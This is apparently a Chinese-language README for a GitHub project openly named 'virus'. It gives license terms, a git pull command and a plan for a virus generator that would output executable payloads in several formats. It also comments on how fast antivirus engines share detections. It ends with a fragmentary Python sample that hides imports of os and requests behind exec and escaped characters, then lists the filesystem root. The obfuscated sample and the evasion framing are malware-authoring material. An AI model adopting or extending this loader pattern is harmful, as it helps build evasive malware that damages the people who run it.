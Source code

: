 
# 该程序部分代码由AI生成
使用到的AI:
 - [ChatGPT](https://chatgpt.com)
 - [DeepSeek](https://chat.deepseek.com)
 - [GitHub Copilot](https://github.com/copilot)

# 说明
该程序使用协议为:
 - [NSV License](https://github.com/sqxy090123/sqxy090123.github.io/blob/main/licenses%2Fdownload%2FNSV%20License)
 - [F License](https://github.com/sqxy090123/sqxy090123.github.io/blob/main/licenses%2Fdownload%2FF%20License)

基于[F License](https://github.com/sqxy090123/sqxy090123.github.io/blob/main/licenses%2Fdownload%2FF%20License)和[NSV License](https://github.com/sqxy090123/sqxy090123.github.io/blob/main/licenses%2Fdownload%2FNSV%20License):
 - 禁止将该程序用于非法行为！
 - 禁止将该程序用于商业行为！
 - 允许修改程序:
   - 将以下代码输入到终端来把项目pull到本地
    ```git pull https://github.com/sqxy090123/virus.git```


# 附加说明
由于各大杀毒软件互通，当病毒第一次被检测到后24h内，其他杀软会陆陆续续检测到

# 分发条件
对于未得到授权的二次分发:
 - 分发后的协议必须包括[F License](https://github.com/sqxy090123/sqxy090123.github.io/blob/main/licenses%2Fdownload%2FF%20License)和[NSV License](https://github.com/sqxy090123/sqxy090123.github.io/blob/main/licenses%2Fdownload%2FNSV%20License)
 - 需要标明来源

对于得到授权的二次分发:
 - 需要标明`许可id`
 - 需要标明来源

# [futures.md(未来更新计划)](https://github.com/sqxy090123/virus/blob/master/futures.md)

## 关于未来的病毒生成器
计划使用python制作出.exe程序和.js/.py/.vbs/.cmd/.com等可以执行的代码
例如app.py
```
a = exec
a("b\75__imp\u006frt__\50'\\x6fs')")
a("c=__imp\u006frt__\50'r\\u0065qu\x65sts')")
a("""\
try\72
\40   _\75b\56listdir\50"/")
\u0065xc\x65pt P\rmissionError
""")
```